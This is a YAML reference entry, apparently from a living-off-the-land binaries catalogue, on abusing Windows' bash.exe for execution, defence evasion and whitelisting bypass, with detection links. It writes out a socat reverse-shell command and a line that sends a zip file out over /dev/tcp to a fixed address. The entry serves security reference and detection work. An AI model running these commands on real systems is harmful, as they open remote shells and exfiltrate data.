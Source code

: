 ```yaml
---
Name: Bash.exe
Description: File used by Windows subsystem for Linux
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: bash.exe -c "{CMD}"
    Description: Executes executable from bash.exe
    Usecase: Performs execution of specified file, can be used as a defensive evasion.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
    Tags:
      - Execute: CMD
  - Command: bash.exe -c "socat tcp-connect:192.168.1.9:66 exec:sh,pty,stderr,setsid,sigint,sane"
    Description: Executes a reverse shell
    Usecase: Performs execution of specified file, can be used as a defensive evasion.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
    Tags:
      - Execute: CMD
  - Command: bash.exe -c 'cat {PATH:.zip} > /dev/tcp/192.168.1.10/24'
    Description: Exfiltrate data
    Usecase: Performs execution of specified file, can be used as a defensive evasion.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
    Tags:
      - Execute: CMD
  - Command: bash.exe -c "{CMD}"
    Description: Executes executable from bash.exe
    Usecase: Performs execution of specified file, can be used to bypass Application Whitelisting.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
    Tags:
      - Execute: CMD
Full_Path:
  - Path: C:\Windows\System32\bash.exe
  - Path: C:\Windows\SysWOW64\bash.exe
Detection:
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_bash.yml
  - IOC: Child process from bash.exe
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Acknowledgement:
  - Person: Alex Ionescu
    Handle: '@aionescu'
  - Person: Asif Matadar
    Handle: '@d1r4c'
---
```

